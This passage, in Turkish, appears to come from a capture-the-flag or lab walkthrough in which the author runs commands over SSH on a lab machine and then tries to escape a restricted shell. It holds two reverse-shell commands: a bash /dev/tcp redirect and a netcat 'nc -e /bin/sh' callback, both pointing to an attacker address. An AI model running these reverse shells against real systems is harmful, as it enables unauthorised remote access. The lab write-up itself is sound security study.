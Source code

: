 ![screenshot](screenshots/53.png)

ssh üzerinden komutları çalıştırmayı başarıyorum.

    ssh burtieo@10.0.2.9 pwd
    
Şeklinde bir kullanıma sahip.

Daha sonra shell'i değiştirmek için reverse shell atmayı deniyorum

    ssh burtieo@10.0.2.9 "bash -i >& /dev/tcp/10.0.2.8/8080 0>&1"
    
Diyorum ancak çıktı yönlendirmesine izin vermiyor.

![screenshot](screenshots/54.png)

Bende NetCat ile reverse shell denemeye karar veriyorum.

    ssh burtieo@10.0.2.9 "nc -e /bin/sh 10.0.2.8 1337"
    